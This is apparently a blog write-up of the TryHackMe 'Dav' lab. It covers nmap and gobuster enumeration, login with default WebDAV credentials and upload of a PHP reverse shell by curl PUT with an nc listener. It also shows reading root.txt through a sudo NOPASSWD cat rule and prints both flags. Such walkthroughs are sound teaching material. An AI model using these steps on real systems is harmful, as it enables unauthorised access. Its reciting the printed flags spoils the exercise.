 ```yaml
---
title: "Dav - TryHackMe"
author: Ludovic COULON
date: 2020-05-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Dav room on TryHackMe"
---
```


[TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)

Read user.txt and root.txt

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.33.240
```

```bash
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
➜  TryHackMe gobuster dir -u http://10.10.33.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.33.240
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/30 16:54:40 Starting gobuster
===============================================================
/webdav (Status: 401)
```

```bash
# There is a creds to acces the page just google webdav default creds"
http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
pass: xampp
```

<div className="Image__Medium">
  <img src="https://imgur.com/BKDICjY.png" alt="blog_image" />
</div>

```bash
# Don't try to crack the hash its a rabit hole (sad life :'c)
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Let's get a reverse shell on the server ! 🤑

[Learning Pentesting with Metasploitable3: Exploiting WebDAV](https://resources.infosecinstitute.com/learning-pentesting-metasploitable3-exploiting-webdav-2/#gref)

```bash
➜  TryHackMe curl –v --user wampp:xampp http://10.10.33.240/webdav/verify.txt -X PUT
curl: (3) Failed to convert –v to ACE; string contains a disallowed character

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/verify.txt has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.33.240 Port 80</address>
</body></html>
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtdInMA.png" alt="blog_image" />
</div>

Nice, let's try with a php reverse shell shall we ? 😃

### #1 user.txt

```bash
➜  TryHackMe curl --user wampp:xampp http://10.10.33.240/webdav/reverse-shell.php --upload-file reverse-shell.php -X PUT
➜  TryHackMe nc -lvnp 4444
```

<div className="Image__Medium">
  <img src="https://imgur.com/iIe25rq.png" alt="blog_image" />
</div>

```bash
$ cd /home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

### #2 root.txt

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
$ sudo cat /root/
cat: /root/: Is a directory
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
